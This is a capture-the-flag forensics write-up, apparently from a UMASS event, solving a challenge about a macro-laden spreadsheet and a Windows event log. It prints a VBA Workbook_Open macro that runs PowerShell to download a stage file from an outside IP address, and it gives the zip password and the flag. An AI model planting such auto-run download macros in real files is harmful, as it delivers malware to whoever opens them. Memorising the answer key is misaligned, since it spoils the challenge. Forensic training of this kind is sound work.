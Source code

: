 # Macrotrace - Forensics Challenge

## Challenge Overview
- **Category:** Forensics
- **Points:** 100
- **Description:** A suspicious spreadsheet surfaced from the archive of a defunct Flash game studio. Opening it does... something, but whatever was there is now gone.

## Files Provided
- `macrotrace-assets.zip` (password: `23ab3Y9/]jKl`)
  - Contains: `dropper.xlsm` (Excel file with macros)
  - Contains: `flash.evtx` (Windows event log)

## Solution Approach

### 1. Extract the Files
```bash
7z x -p23ab3Y9/]jKl macrotrace-assets.zip
```

### 2. Analyze the Excel Macro
```bash
olevba dropper.xlsm
```

The macro reveals a PowerShell command that runs on workbook open:
```vba
Private Sub Workbook_Open()
    Dim cmd As String
    cmd = "powershell.exe -Command \"Invoke-WebRequest -Uri 'http://34.138.121.94:8000/stage1.txt' -OutFile $env:TEMP\\stage1.txt\""
    Shell cmd
End Sub
```

This shows the macro downloads a file from a remote server when opened.

### 3. Analyze the Windows Event Log
First, convert the event log to XML for easier analysis:
```bash
evtx_dump.py flash.evtx > flash.xml
```

Search for PowerShell activity:
```bash
grep -i ScriptBlockText flash.xml
```

This reveals a suspicious base64 string:
```
$e= "VU1BU1N7ZHJvcF9pdF9saWtlX2l0c19ob3R9"
```

### 4. Decode the Base64 String
```bash
echo 'VU1BU1N7ZHJvcF9pdF9saWtlX2l0c19ob3R9' | base64 -d
```

This reveals the flag: `UMASS{drop_it_like_its_hot}`

## Flag
`UMASS{drop_it_like_its_hot}`